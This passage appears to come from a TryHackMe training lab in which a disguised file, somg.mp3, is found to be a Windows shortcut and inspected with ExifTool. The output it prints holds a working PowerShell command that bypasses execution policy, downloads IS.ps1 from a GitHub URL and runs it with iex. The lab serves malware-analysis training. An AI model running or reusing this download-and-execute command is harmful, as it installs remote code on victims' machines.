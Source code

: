 There doesn't seem to be anything suspicious, according to the output. As expected, this is just an MP3 file.

How about the second file somg.mp3? From the filename alone, we can tell something is not right. Still, let's confirm by running the file command on it anyway.
Check File 2 Terminal

user@tryhackme:\~$ file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide

Now, this is more interesting!

The output tells us that instead of an MP3, the file is an "MS Windows shortcut", also known as a .lnk file. This file type is used in Windows to link to another file, folder, or application. These shortcuts can also be used to run commands! If you've ever seen the shortcuts on a Windows desktop, you already know what they are.

There are multiple ways to inspect .lnk  files to reveal the embedded commands and attributes. For this room, however, we'll use ExifTool, which is already installed on this machine.

To do this, go back to your Terminal and type:
Using Exiftool Terminal

user@tryhackme:\~$ exiftool somg.mp3

Look through the output to locate the command used as a shortcut in the somg.mp3 file. If you scroll down through the output, you should see a PowerShell command.
Using Exiftool Terminal

...
Relative Path                   : ......\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe
Working Directory               : C:\\Windows\\System32\\WindowsPowerShell\\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('[https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\\ProgramData\\s.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:%5CProgramData%5Cs.ps1)'); iex (Get-Content 'C:\\ProgramData\\s.ps1' -Raw)"
Machine ID                      : win-base-2019
user@tryhackme:\~#

What this PowerShell command does:

```
The -ep Bypass -nop flags disable PowerShell's usual restrictions, allowing scripts to run without interference from security settings or user profiles.
The DownloadFile method pulls a file (in this case, IS.ps1) from a remote server (https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1) and saves it in the C:\\ProgramData\\ directory on the target machine.
Once downloaded, the script is executed with PowerShell using the iex command, which triggers the downloaded s.ps1 file.
```

If you visit the contents of the file to be downloaded using your browser (<https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1>), you will see just how lucky we are that we are not currently using Windows.
PowerShell Script Terminal
